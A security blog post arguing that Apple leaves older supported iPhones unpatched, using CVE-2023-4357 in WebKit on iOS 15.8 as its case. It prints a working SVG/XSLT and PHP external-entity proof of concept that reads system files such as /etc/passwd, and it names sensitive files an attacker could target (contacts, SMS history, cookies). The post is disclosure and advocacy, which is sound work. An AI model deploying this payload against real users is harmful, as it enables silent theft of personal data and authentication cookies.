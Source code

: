 ```yaml
---
layout: post
title: "No new iPhone? No secure iOS: Looking at an unfixed iOS vulnerability"
author: "Joshua Rogers"
categories: security
---
```


What's the deal with iOS security updates, anyway?

Not everybody can afford the newest and greatest Apple product. Luckily, Apple continues to support nearly-decade-old devices like the iPhone 6S, with iOS 15.8 still powering those devices with official Apple support, with the latest update from [October the 25th, which addressed some security vulnerabilities](https://support.apple.com/en-gb/109032).

In reality, however, Apple seems to only be addressing _some_ security issues in its older supported devices.

---

On June the 28th, Chromium announced that it had patched a vulnerability titled ["CVE-2023-4357: Insufficient validation of untrusted input in XML"](https://chromereleases.googleblog.com/2023/08/stable-channel-update-for-desktop_15.html). In the [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1458911) for that issue, it was shown that on various devices, Google Chrome's Blink rendering engine could reveal the contents of arbitrary files: `/etc/passwd`, for example. Interestingly, this also included Chrome for iOS. Given that Apple forces all browsers in iOS to use the WebKit rendering engine, that meant this vulnerability not only affected Blink, but also WebKit.

---

Taking that exploit from June:

`exploit.svg`:
```html
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

<xsl:template match="/">

<svg width="1000%" height="1000%" version="1.1" xmlns="http://www.w3.org/2000/svg">
<foreignObject class="node" font-size="18" width="100%" height="100%">
<body xmlns="http://www.w3.org/1999/xhtml">
<xmp><xsl:copy-of select="document('exploit.php')"/></xmp>
</body>
</foreignObject>
</svg>

</xsl:template>
</xsl:stylesheet>
```

`exploit.php`:
```php
<?php header("Access-Control-Allow-Origin: *");?>
<!DOCTYPE p [
<!ENTITY passwd SYSTEM "file:///etc/passwd">
<!ENTITY hosts SYSTEM "file:///etc/hosts">
<!ENTITY group SYSTEM "file://localhost/etc/group">
]>
<p>

<p style="border-style: dotted;">/etc/passwd:
&passwd;
</p>
<p style="border-style: dotted;">/etc/hosts:

&hosts;
</p>
<p style="border-style: dotted;">/etc/group:

&group;
</p>

</p>
```


and trying it on the latest version of iOS that the (supported) iPhone 6S, we indeed see that the exploit _still_ works. When opening the page, your `/etc/passwd` is there for the world to see.

That means that any website visited by anybody using an iPhone 6S (or possibly later versions) can silently steal internal system files. What files could somebody steal? Well, there's always:

* AddressBook.sqlitedb: which contains all of the personal contact information of the user and any saved contacts.
* call_history.db: which contains all received, dialled, and missed calls of the user.
* SMS/call_history.db: which contains the SMS history of the user.

Or maybe:
* History.plist: which contains the browsing history of the user.
* Cookies.plist: which contains the browser's cookies -- including authentication cookies, which an attacker can re-use once they are stolen.


---

After contacting Apple to see whether they intended to patch this, the response was quite short: `If in the future you are able to reproduce this issue using a different device that's running iOS 17 or later, please let us know.`

This raises some interesting questions. First off, does it imply that Apple does not patch vulnerabilities in older versions of iOS unless they may used to root/jailbreak the iPhone, or are known to be actively being either mass-exploited or exploited by some nation-state?

A [new exploit targeting the iOS](https://github.com/skysafe/reblog/tree/main/cve-2023-45866) (among other OS') Bluetooth stack has also been [left unpatched by Apple in all versions except iOS 17](https://support.apple.com/en-us/HT214035).

If I was an exploit vendor, I would be paying very close attention to vulnerabilities fixed in iOS 17, and seeing whether they work on previous (supported) iOS versions. Not every target has the newest Apple device, and minimal amount of surveillance may save the vendor from burning a 0day on a target that is using a slightly older device.

---


Note: I haven't tested this against older (supported) MacOS versions, but it's definitely possible that Safari is exploitable here, too.
